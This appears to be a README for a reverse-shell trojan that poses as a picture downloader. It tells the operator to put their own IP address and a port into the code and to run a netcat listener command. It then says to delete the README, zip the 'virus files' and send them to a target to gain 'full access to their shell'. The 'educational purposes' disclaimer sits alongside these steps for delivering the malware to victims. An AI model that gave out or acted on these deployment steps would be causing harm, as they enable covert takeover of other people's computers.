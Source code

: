 This is a bit of a complicated malware so some modifications need to be made.
========================================================================

The modifications are:

1. Set the value of the errorserver variable in the ErrorHandler64 to your IP address, which you can find by googling "what is my IP address?".

2. Set the value of the errorid to any number under 1000. we recommend 80 or 443. Remember this number.

After you are done with these steps, you have to do one more step:
You must have a linux server running this command during the execution of the virus code:
stty raw -echo; (stty size; cat) | nc -lvnp $port
replace $port in this command with the number you chose earlier.

Don't have a linux server? no problem. You can open one for free by:
1. open microsoft store
2. Search for kali linux
3. Download it
4. Open it
5. Follow the on screen instructions
6. Type sudo apt update
7. sudo apt upgrade -y
8. Done!

====================

Before sending the virus:
1. remove this file
2. zip the two virus files
3. send the zip folder

=====================

How to run the malware:
WARNING! It is strictly advised to not run the malware for your own safety.
We are not responsible for any damage caused by running of the malware.
The malware has been developed purely for educational purposes.

=============================================================

Instructions:
1. Run File Downloader.py

=========================

What the malware does:
The malware acts as a downloader of pictures, and then establishes a reverse shell with the target computer, giving you full access to their shell.
